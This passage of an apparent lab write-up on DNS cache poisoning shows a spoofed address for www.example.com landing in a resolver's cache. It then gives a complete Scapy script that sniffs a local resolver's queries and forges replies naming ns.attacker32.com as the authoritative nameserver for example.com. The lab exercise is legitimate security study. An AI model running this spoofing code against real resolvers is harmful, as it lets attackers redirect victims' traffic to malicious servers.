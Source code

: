 ***python program to poison dns cache***

![spoof-poison-code](https://github.com/iukadike/iukadike.github.io/assets/58455326/ade9a99c-18c7-4c58-9df5-ee1130b5c68e)

***running dig `www.example.com` from victim machine***

![spoof-poison-victim](https://github.com/iukadike/iukadike.github.io/assets/58455326/6a856497-4ba1-43b6-880b-ebb6baa4f4ab)

We can see from the screen shot that, as expected, the address `dig` got back for `www.example.com` was `1.2.3.4, which is the address we used in our Python program. However, this entry is not local to the host. It affects the records on the DNS server, as seen in the screenshot below.

***the dns cache of the local dns server***

![spoof-poison-cache](https://github.com/iukadike/iukadike.github.io/assets/58455326/ad29ab53-cbbc-489a-9677-687716f5918a)
 
Here, after dumping the cache to a file and inspecting it, we can see that the cached address for `www.example.com` was `1.2.3.4.

<br>

### Spoofing NS Records
The problem with the above code is that it works only for `www.example.com`. If the user visits another subdomain of `example.com`, we would have to launch another attack. However, by poisoning the local DNS server's NS records cache, we can tell the local DNS server that all resolutions for `example.com` domain should be sent to our DNS server. This can be accomplished by telling the local DNS server that the malicious DNS server is an authoritative server for `example.com` domain.

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
    if NS_NAME in pkt[DNS].qd.qname.decode():
        print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
        
        # Create an IP object
        ip = IP(src = pkt[IP].dst, dst = pkt[IP].src)
        
        # Create a UDP object
        udp = UDP(sport = pkt[UDP].dport, dport = pkt[UDP].sport) 
        
        # Create an authority record
        nssec = DNSRR(rrname = 'example.com', type = 'NS',
            ttl = 1024, rdata = 'ns.attacker32.com')
            
        # Create a DNS object 
        dns = DNS(id = pkt[DNS].id,
            rd = 0, qr = 1, qdcount = 1, nscount = 1,
            qd = pkt[DNS].qd, ns = nssec) 
        
        # Send the spoofed DNS packet
        send(ip / udp / dns, verbose=0) 

myFilter = "udp port 53 && src host 10.9.0.53 && (not ether host 02:42:82:ce:39:30)"
print('running...')
sniff(iface='br-eb50d439f380', filter=myFilter, prn=spoof_dns)
```
